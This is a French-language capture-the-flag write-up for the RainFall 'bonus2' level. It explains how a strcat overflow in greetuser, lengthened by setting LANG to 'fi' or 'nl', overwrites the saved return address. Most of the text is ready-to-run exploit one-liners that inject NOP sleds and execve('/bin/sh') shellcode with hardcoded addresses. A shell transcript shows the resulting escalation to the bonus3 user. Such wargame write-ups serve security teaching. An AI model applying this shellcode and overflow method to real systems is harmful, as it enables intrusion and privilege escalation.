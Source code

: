 # bonus02

Vu que l on a la protection "GCC stack protector support" d'activer, nous devons utiliser la ligne suivante dans gdb afin de garder des adresses coherentes avec une utilisation sans gbd:
set exec-wrapper env -u LINES -u COLUMNS

Si argc n'est pas egal a 3, le programme se termine et retourne 1 (main+15)

set exec-wrapper env -i LANG="fi"

bonus2@RainFall:~$ echo $LANG
fi

A greetuser+147 nous avons un strcat() avec l adresse de la destination a 0xbffff260 et save $eip a l adresse 0xbffff2ac, ce qui nous permet d'ecraser sa valeur si l'adresse de destination atteint 80 bytes (0xbffff2ac-0xbffff260 = 76 + les 4 bytes de l'adresse a overwrite) et ne pas retourner a main+263, mais sur l adresse de notre shellcode

Seul 40 bytes du premier argument et 32 bytes du deuxieme argument seront copier dans l'adresse de destination, ce qui fait 72 bytes d'ecriture possible dans nos argument du main, il nous manque donc 8 bytes pour ecraser $eip.

Si la varible d'environnement LANG vaut "fi", nous aurons une string de 19 bytes dans l'adresse de destination du strcat ce qui nous fera 98 bytes, nous pourrons donc ecraser $eip.

Si la varible d'environnement LANG vaut "nl", nous aurons une string de 14 bytes dans l'adresse de destination du strcat ce qui nous fera 92 bytes, nous pourrons donc ecraser $eip.

Si la varible d'environnement LANG vaut une autre valeur, nous aurons une string de 6 bytes dans l'adresse de destination du strcat ce qui nous fera 78 bytes, nous ne pourrons donc pas ecraser $eip, et le challenge ne pourra pas etre resolue avec notre methode.

Nous avons donc plusieurs solutions pour ce challenge:

export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'") && export LANG="fi" && ./bonus2 $(python -c 'print "A" * 4000') $(python -c 'print "B" * 18 + "\x78\xf7\xff\xbf"')

export LANG="fi" && ./bonus2 $(python -c 'print "\x90" * 17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') $(python -c 'print "B" * 18 + "\xff\xf4\xff\xbf"')

export LANG="nl" && ./bonus2 $(python -c 'print "A" * 4000') $(python -c 'print "B" * 23 + "\x78\xf7\xff\xbf"')

export LANG="nl" && ./bonus2 $(python -c 'print "\x90" * 17 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') $(python -c 'print "B" * 23 + "\xff\xf4\xff\xbf"')

bonus2@RainFall:~$ export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")

bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x78\xf7\xff\xbf"')Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB���
$ whoami
bonus3
$ echo "You are the bonus3 user"
You are the bonus3 user
$


Premier argument du main dans le main: 0xbfffd836
	Dans la fonction greetuser: 0xbfffd5a0

Le tout dans greetuser: 0xbffff462

0xbffff4f0


r $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x1e\xf5\xff\xbf" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

